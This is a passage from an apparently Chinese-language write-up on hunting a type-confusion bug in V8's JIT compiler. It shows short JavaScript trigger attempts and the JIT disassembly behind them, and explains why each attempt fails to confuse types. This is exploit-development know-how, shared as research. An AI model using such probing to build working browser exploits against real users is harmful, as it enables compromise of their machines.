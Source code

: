 ```
var obj = `{`a:"haivk",b:"hai"`}`;

function  opt(o)`{`
    return o.a;
`}`
for(var i = 0; i &lt; 0x20000; i++)`{`
    opt(obj);
`}`
obj.a = 1.1;
print(opt(obj));
```

发现不能造成类型混淆，其JIT代码如下（部分）

```
0x23565c142c38   118  49b971404c31240e0000 REX.W movq r9,0xe24314c4071    ;; object: 0x0e24314c4071 &lt;String[#1]: a&gt;
0x23565c142c42   122  4151           push r9
0x23565c142c44   124  49b931024ab11e080000 REX.W movq r9,0x81eb14a0231    ;; object: 0x081eb14a0231 &lt;HeapNumber 1.1&gt;
0x23565c142c4e   12e  4151           push r9
0x23565c142c50   130  48bbb00d6ce27c7f0000 REX.W movq rbx,0x7f7ce26c0db0    ;; external reference (Runtime::SetNamedProperty)
0x23565c142c5a   13a  b803000000     movl rax,0x3
0x23565c142c5f   13f  488b75a8       REX.W movq rsi,[rbp-0x58]
0x23565c142c63   143  49bac0a02fe37c7f0000 REX.W movq r10,0x7f7ce32fa0c0  (CEntry_Return1_DontSaveFPRegs_ArgvOnStack_NoBuiltinExit)    ;; off heap target
0x23565c142c6d   14d  41ffd2         call r10
```

主要是在执行`obj.a = 1.1;`的时候没有使用优化的方法，而是使用`SetNamedProperty`的普通js方法来进行赋值，那么就不会触发到漏洞点。那么，我们在``{``}``里再包含一个``{``}``试试

```
var obj = `{`a:`{`b:"haivk"`}``}`;

function  opt(o)`{`
    return o.a.b;
`}`
for(var i = 0; i &lt; 0x20000; i++)`{`
    opt(obj);
`}`

obj.a = `{`b:2.2`}`;

print(opt(obj));
```

仍然没有发生类型混淆，查看JIT代码

```
0x3b6d7cc2dfe   19e  48b991c2313f02140000 REX.W movq rcx,0x14023f31c291    ;; object: 0x14023f31c291 &lt;String[#5]: print&gt;
0x3b6d7cc2e08   1a8  48b8000000000e000000 REX.W movq rax,0xe00000000
0x3b6d7cc2e12   1b2  4c8bc6         REX.W movq r8,rsi
0x3b6d7cc2e15   1b5  49baa0792d89ab7f0000 REX.W movq r10,0x7fab892d79a0  (LoadGlobalICTrampoline)    ;; off heap target
0x3b6d7cc2e1f   1bf  41ffd2         call r10
```
